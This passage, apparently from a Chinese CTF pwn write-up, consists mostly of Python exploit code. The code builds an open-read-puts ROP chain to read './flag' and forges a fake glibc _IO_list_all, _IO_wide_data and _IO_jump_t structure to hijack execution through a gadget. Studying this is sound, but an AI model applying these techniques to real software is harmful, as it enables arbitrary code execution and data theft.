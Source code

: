 构造 orw 链

```bash
#open
orw = b'./flag\x00\x00'
orw += p64(pop_rdx12) + p64(0) + p64(chunk0 - 0x10)#fake io addr
orw += p64(pop_rdi) + p64(orw_addr)
orw += p64(pop_rsi) + p64(0)
orw += p64(open_addr)
#read
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(read_addr)
#puts
orw += p64(pop_rdi) + p64(orw_addr + 0x100)
orw += p64(puts_addr)
```

其中 chunk0 是我们伪造的 fakeio 的地址

伪造 fake io\_list

```bash
#_IO_list_all
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20) #2c0
pl+=p64(0)*3 #2e0
pl+=p64(orw_addr) #chunk0 + 0xe0 + 0xe8 + 0x70 -- _IO_save_base
pl+=p64(0)*7
pl+=p64(lock) #_lock
pl+=p64(0)*2
pl+=p64(chunk0 + 0xe0) #370: chunk0+0xe0 -- _IO_wide_data
pl+=p64(0)*6
pl+=p64(wfile)

#_IO_wide_data
pl+=p64(0)*0x1c
pl+=p64(chunk0 + 0xe0 + 0xe8) #_IO_jump_t

#_IO_jump_t
pl+=p64(0)*0xd
pl+=p64(magic_gadget)#svcudp_reply+26 处的 gadget
pl+=orw
```

带入本题中

```bash
chunk0 = heap_base + 0xf20 #fake_IO
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)
#read
orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)
#puts
orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)
```
